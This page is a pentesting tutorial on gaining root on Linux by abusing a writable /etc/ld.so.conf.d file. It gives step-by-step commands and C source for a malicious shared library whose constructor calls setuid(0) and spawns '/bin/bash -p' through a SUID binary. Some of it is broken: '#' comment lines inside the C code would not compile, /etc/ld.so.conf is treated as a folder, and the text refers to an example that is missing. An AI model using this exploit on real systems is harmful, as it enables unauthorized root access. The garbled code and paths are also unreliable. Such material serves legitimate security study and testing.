










Shared Object Injection (writable /etc/ld.so.conf.d/*.conf)
Prerequisite:
• writable permission on a configuration file inside /etc/ld.so.conf/ → (/etc/ld.so.conf/*.conf)

OR
• Writable permission a folder that is inside a configuration file

Explanation
The file /etc/ld.so.conf indicates where are loaded the configurations files from. Typically, this file contains the following path:
include /etc/ld.so.conf.d/*.conf
The above include command means that the configuration files from /etc/ld.so.conf.d/*.conf will be read and where libraries are going to be searched for.
In the example above the libraries will be searched in /root, /home/m4l/lib, /tmp
If an a user has write permissions on any of the folders indicated by:
• /etc/ld.so.conf
• /etc/ld.so.conf.d/
We may be able to escalate privileges.

Privilege Escalation exploit
1. Find a binary with SUID bit enabled

2. Check the libraries loaded by this binary
ldd /usr/bin/oracle

libcustom.so could be our target, we need that the binary (oracle in this example) load our malicious library instead of the original libcustom.so
3. Check configuration files inside /etc/ld.so.conf/:
cd /etc/ld.so.conf/
◇ Check if we have writable permission on a folder inside a configuration file (where we can put our malicious library)
OR IN ALTERNATIVE:
◇ add a folder (/tmp) where we can put our malicious library inside a /etc/ld.so.conf.d/*.conf
echo "/tmp" > /etc/ld.so.conf.d/home.conf

4. Create malicious library in the folder that you have found at the point before( in this example /tmp)
#include <stdio.h>
#include <stdlib.h>
#constructor attribute causes the function to be called automatically before execution enters main ()
# static is not necessary in this scenario
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}

5. Compile the library and save it in the folder found at point 3 where we have write permission
gcc -shared -o libcustom.so libcustom.c
6. Use
◇ ldconfig to reload the /etc/ld.so.cache (to reload the cache we need the SUID bit enabled on ldconfig)
ldconfig
in alternative
◇ check the content of /etc/ld.so.cache with ldconfig.
In fact a binary will search inside the folders indicated by /etc/ld.so.cache first
From here we can check from which folder the shared library of a binary is loaded from
ldconfig -p
/usr/sbin/ldconfig -p


-p, --print-cache --> Print the lists of directories and candidate libraries stored in the current cache
7. Now the binary should load our custom malicious library instead of the original one

Bibliography:
https://book.hacktricks.xyz/linux-unix/privilege-escalation/ld.so.conf-example
https://www.boiteaklou.fr/Abusing-Shared-Libraries.html
https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2
https://www.youtube.com/watch?v=JvqBaZ0WnV4&t=2490s